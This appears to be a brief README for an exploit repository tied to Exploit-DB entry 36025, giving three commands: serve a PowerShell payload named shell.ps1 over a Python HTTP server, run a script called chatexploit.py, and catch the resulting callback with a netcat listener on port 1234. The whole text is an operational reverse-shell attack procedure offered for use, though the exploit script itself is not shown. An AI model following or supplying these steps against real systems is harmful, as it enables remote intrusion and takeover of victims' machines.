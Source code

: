 # EDB-ID-36025

https://www.exploit-db.com/exploits/36025

host shell.ps1

```
python -m SimpleHTTPServer 8000
```

run exploit
```
python chatexploit.py
```

listen for call back
```
netcat -lnvp 1234
```
